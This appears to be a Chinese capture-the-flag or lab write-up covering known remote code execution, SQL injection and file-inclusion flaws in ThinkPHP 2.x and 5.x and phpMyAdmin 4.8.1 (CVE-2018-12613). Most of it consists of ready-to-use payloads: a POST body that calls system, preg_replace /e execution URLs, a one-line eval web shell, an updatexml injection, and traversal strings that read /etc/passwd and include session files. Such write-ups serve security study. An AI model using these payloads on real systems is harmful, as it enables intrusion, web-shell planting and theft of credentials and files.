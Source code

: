 #### [ThinkPHP]5.0.23-Rce
本题是开启了captcha的method路由，直接使用POST提交payload
`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls`
那么同理flag在phpinfo内：
![](https://img-blog.csdnimg.cn/20200520200122869.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
#### [ThinkPHP]2-Rce
ThinkPHP 2.x版本中，使用preg_replace的/e模式匹配路由：
```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。
ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
payload：`?s=/index/index/name/${@phpinfo()}`
![](https://img-blog.csdnimg.cn/20200520232708652.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
可以构造的poc如下：
```php
/index.php?s=a/b/c/${phpinfo()}
/index.php?s=a/b/c/${phpinfo()}/c/d/e/f
/index.php?s=a/b/c/d/e/${phpinfo()}
......
```
写入一句话：
```php
?s=a/b/c/${@print(eval($_POST[1]))}
```
![](https://img-blog.csdnimg.cn/20200520233130114.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

参考文章：[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行](https://www.freebuf.com/column/223149.html)
#### [ThinkPHP]IN SQL INJECTION
访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来
![](https://img-blog.csdnimg.cn/20210309115713262.png)
访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出，但是一个比较鸡肋的SQL注入漏洞
![](https://img-blog.csdnimg.cn/2021030911552137.png)
通过DEBUG页面，我们可以找到了数据库的账号、密码，并且可以得到泄露的flag
![](https://img-blog.csdnimg.cn/20210309120012659.png)

参考：[ThinkPHP5 SQL注入漏洞 && 敏感信息泄露](https://github.com/vulhub/vulhub/blob/master/thinkphp/in-sqlinjection/README.zh-cn.md)
[ThinkPHP5 SQL注入漏洞 && PDO真/伪预处理分析](https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html)
### [PHPMYADMIN]
#### [PHPMYADMIN]CVE-2018-12613
任意文件读取payload：
```php
?target=db_datadict.php%253f/../../../../../../../../etc/passwd
?target=db_sql.php%253f/../../../../../../../../etc/passwd
```
查看当前数据库路径：
![](https://img-blog.csdnimg.cn/20200520235121146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后还是使用session来写：`select '<?=phpinfo()?>';`
访问session文件：
`?target=db_sql.php%253f/../../../../../../../../tmp/sess_5bda3cd03c39e50b75567c72ee93dd8c`
![](https://img-blog.csdnimg.cn/20200521120610688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
文章：
[【首发】phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)
[CVE-2018-12613 phpMyAdmin远程文件包含漏洞](https://xz.aliyun.com/t/6592)
